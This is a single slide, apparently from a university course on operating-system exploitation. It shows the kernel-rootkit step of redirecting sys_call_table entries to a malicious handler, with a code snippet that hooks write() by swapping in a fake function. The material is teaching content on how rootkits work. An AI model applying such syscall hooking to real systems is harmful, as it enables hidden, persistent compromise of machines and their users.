

# Point to malicious system call
Now that the sys_call_table address was found and memory is writable the addresses in sys_call_table pointing to the original system call can be changed to point to the malicious system call that the address
A system call generally looks like this:
asmlinkage long sys_mycall(int arg)
{
        return 0;
}
e.g.  hook write() system call
  original_write = (void*)SYS_CALL_TABLE[__NR_write];
  SYS_CALL_TABLE[__NR_write] = (unsigned long*)fake _write;

ITSC304 Operating Systems Exploitation.